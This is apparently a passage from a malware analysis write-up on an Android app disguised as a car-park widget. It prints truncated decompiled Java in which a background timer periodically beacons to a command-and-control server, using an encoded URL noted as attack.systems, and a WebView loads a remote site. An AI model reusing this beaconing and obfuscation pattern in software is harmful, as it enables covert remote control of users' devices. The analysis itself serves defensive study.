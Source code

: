 ```java
            wv10.getSettings().setUserAgentString(this.agentim);
            wv10.getSettings().setJavaScriptEnabled(true);
            wv10.loadUrl(this.siten, extraHeaders);
            return;
        }
[TRUNCATED] 
```

We can see in the `onCreate` method imports the Timer library (more info [here](https://docs.oracle.com/javase/7/docs/api/java/util/Timer.html)) which can be used to schedule various tasks in the background. Then the data type Long `ZAMAN` is loaded into the context of `run` method which again is calling out to the C2.

```java
[TRUNCATED]
		public void onCreate() {
        super.onCreate();
        int Sayi = Build.VERSION.SDK_INT;
        if (Sayi >= 9) {
            StrictMode.ThreadPolicy policy = new StrictMode.ThreadPolicy.Builder().permitAll().build();
            StrictMode.setThreadPolicy(policy);
        }
        this.TimeBooster = new Timer();
        this.Helper = new Handler(Looper.getMainLooper());
        this.TimeBooster.scheduleAtFixedRate(new TimerTask() { // from class: com.araba_car_park_oto.WidgetJava.1
            @Override // java.util.TimerTask, java.lang.Runnable
            public void run() {
                try {
                    if (!WidgetJava.this.internetBaglantisiVarMi()) {
                        return;
                    }
                    WidgetJava.this.bilgiVer();
                } catch (Exception e) {
                }
            }
        }, 0L, ZAMAN);
    }

    /* JADX INFO: Access modifiers changed from: private */
    @SuppressLint({"NewApi"})
    public void bilgiVer() {
        this.dolu = false;
        try { // http://attack.systems/com
            this.kaynak = kaynakal(encrypt.decode("eJzLKCkpsNLXTywpSUzO1iuuLC5JzS3WT87P1QcAg1gJtA==")).trim(); // http://attack.systems/com
[TRUNCATED]
```

## Dynamic Analysis
